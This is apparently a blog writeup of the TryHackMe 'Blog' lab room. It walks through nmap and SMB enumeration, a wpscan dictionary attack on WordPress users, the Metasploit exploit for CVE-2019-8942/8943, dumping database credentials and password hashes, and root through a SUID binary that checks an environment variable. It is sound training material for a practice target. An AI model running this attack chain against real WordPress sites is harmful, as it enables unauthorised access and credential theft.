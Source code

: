 ```yaml
---
layout: post
title:  "TryHackMe Blog writeup"
date:   2020-12-25 12:59:36 +0200
categories: writeup tryhackme
---
```


This is a writeup for TryHackMe room [Blog](https://tryhackme.com/room/blog) where you need to hack your way into wordpress using a CVE and weak credentials. 

>Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

## Reconnaissance

Let’s start with a nmap scan:
```
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### SMB enumeration

Let's look at potential anonymous shares:

```
smbmap -H blog.thm            
[+] Guest session    IP: 10.10.183.211:445 Name: 10.10.183.211                                     
   Disk                                                     Permissions Comment
   ----                                                     ----------- -------
   print$                                              NO ACCESS    Printer Drivers
   BillySMB                                            READ, WRITE  Billy's local SMB Share
   IPC$                                                NO ACCESS    IPC Service (blog server (Samba, Ubuntu))
```
There is one but it contains only a rabbit hole (I was expecting to get rickrolled):
```
smbclient \\\\blog.thm\\BillySMB       
Enter WORKGROUP\jari's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Dec 26 12:15:49 2020
  ..                                  D        0  Tue May 26 20:58:23 2020
  Alice-White-Rabbit.jpg              N    33378  Tue May 26 21:17:01 2020
  tswift.mp4                          N  1236733  Tue May 26 21:13:45 2020
  check-this.png                      N     3082  Tue May 26 21:13:43 2020
```


### Web server enumeration

Let't take a loook at the web site. Oh no, Billy has been laid off. Luckily his mother is there to support him. 
![Smag]({{ site_url }}/assets/blog/web.png)


### Wordpress enumeration

Let's look at the potential vulnerabilities using wpscan. One interesting RCE pops up:

```
wpscan --url http://blog.thm --api-token __REDACTED__ 

Title: WordPress 3.7-5.0 (except 4.9.9) - Authenticated Code Execution
 |     Fixed in: 5.0.1
 |     References:
 |      - https://wpscan.com/vulnerabilities/1a693e57-f99c-4df6-93dd-0cdc92fd0526
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8942
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-8943
 |      - https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/
 |      - https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce
 |
```
To be able to exploit this we need an authenticated user. Billy's mother might not have the strongest password, let's see if we can get her credentials.

Enumerate users:
```
wpscan --url http://blog.thm --api-token __REDACTED__ --enumerate u 
kwheel: Karen Wheeler
bjoel: Billy Joel
```


## Gaining entry


wpscan dictionary attack:
```
wpscan --url http://blog.thm --usernames kwheel,bjoel --passwords /usr/share/wordlists/rockyou.txt
[SUCCESS] - kwheel / cutiepie1         
```

Ok nice. Now we can log in as Karen and exploit the vulnerability. Since this vulnerability requires multiple steps it's worth checking if metasploit has a suitable exploit. Luckily there is one:

```
msf5 > search CVE-2019-8943

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```

Set the few options and open up meterpreter shell. Upgrade it with Python:

```
python -c 'import pty;pty.spawn("/bin/bash")
```

Let's grab wordpress database credentials from `/var/www/wordpress/wp-config.php`:
``` 
/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');
```

Connect to the blog database and get users:

```
select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ |
| kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. |
+------------+------------------------------------+
```

While hashcat is running sniff around filesystem. After a lot of searches I check for suid permissions and find one interesting file:

```
find / -perm /4000 2>/dev/null
...
/usr/sbin/checker
...
```
Running it seems to do an admin check:
```
./checker   
Not an Admin
```
Let's see how the check is performed using `ltrace`:

```
ltrace ./checker
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```
Let's set the variable and try again:
```
ww-data@blog:/usr/sbin$ export admin=true
www-data@blog:/usr/sbin$ ./checker
root@blog:/usr/sbin# id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
BOOM! We are root. All there is to do now is grab the flags.
